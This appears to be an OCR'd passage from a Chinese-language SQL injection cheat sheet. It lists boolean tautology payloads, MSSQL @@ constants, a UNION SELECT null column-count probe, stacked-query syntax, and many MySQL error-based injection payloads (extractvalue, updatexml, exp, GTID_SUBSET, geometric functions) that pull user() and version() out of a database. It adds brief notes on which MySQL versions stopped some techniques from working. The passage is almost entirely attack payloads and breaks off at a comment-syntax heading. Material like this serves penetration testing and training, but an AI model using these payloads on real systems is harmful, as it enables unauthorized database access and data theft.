 • or 1=

• ' and '1'='1  

• + - ^ * % /

• << >> || | & &&

• ~

• !

• @

• 反引号执行  

**测试用常量**

• @@version

• @@servername

• @@language

• @@spid  

**测试列数**

例如 http://www.foo.com/index.asp?id=12+union+select+null,null-- ，不断增加 null 至不返回  

**报错注入**

• select 1/0
• select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a
• extractvalue(1, concat(0x5c,(select user())))
• updatexml(0x3a,concat(1,(select user())),1)
• exp(~(SELECT * from(select user())a))
• ST_LatFromGeoHash((select * from(select * from(select user())a)b))
• GTID_SUBSET(version(), 1)  

**基于 geometric 的报错注入  **

• GeometryCollection((select * from (select * from(select user())a)b))

• polygon((select * from(select * from(select user())a)b))

• multipoint((select * from(select * from(select user())a)b))

• multilinestring((select * from(select * from(select user())a)b))  

• LINESTRING((select * from(select * from(select user())a)b))

• multipolygon((select * from(select * from(select user())a)b))

其中需要注意的是，基于 exp 函数的报错注入在 MySQL 5.5.49 后的版本已经不再生效，具体可以参考这个`commit 95825f `。

而以上列表中基于 geometric 的报错注入在这个 `commit 5caea4` 中被修复，在 5.5.x 较后的版本中同样不再生效。  

**堆叠注入**

• ;select 1  

**注释符**
